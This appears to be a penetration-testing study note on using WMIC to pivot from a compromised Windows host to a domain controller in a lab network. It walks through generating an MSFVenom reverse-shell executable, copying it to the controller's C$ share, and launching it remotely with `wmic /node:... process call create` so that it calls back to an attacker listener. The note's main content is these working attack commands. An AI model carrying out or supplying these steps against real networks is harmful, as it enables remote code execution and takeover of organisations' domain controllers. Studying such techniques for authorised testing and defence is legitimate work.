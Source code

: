 The Windows Management Instrumentation Command line (WMIC) is **a software utility that allows users to performs Windows Management Instrumentation (WMI) operations with a command prompt.**
	Essentially allows us to execute remote operations or commands through WMI if we upload malicious payloads to a different machine.

As an example to setup:

Attacker Machine (Through VPN) - 10.0.30.67/24
Victim Machine - 10.0.30.7/24 (Also has another Ethernet adapter to 10.0.10.0/24)
Goal Machine - 10.0.10.89/24 - DOMAIN CONTROLLER

We gain RCE to the Victim machine through some sort of exploit

* Goal is to pivot from the Victim machine to the DC
* This pivoting technique REQUIRES you to know the IP address of the DC

Generate an executable .exe through MSFVenom, a reverse shell or something
	Just anything to call back to a listener on the Attacker Machine

* Upload the listener to the Victim machine via a simple python server, or through meterpreter (really anything that'll get the MSFVenom payload to the Victim machine

On the Victim Machine
`copy setup.exe \\DC$IP\c$`
Confirm that this is on the DC by running
`dir \\DC$IP\c$`

* The problem that we encounter is that we now need to execute the payload itself on the DC, but we can't do that through normal means
* However, we can use WMIC to remotely execute this command on the DC from the Victim machine.*

Command Syntax - Victim Machine
`wmic /node:"<target>" process call create "\\<target>\<payload>"`
`wmic /node:"10.0.10.89" process call create "\\10.0.10.89\setup.exe"`

* Once this is executed, the payload should call back to our listener on our Attacking Machine
* We should gain a shell on the DC and have successfully pivoted.*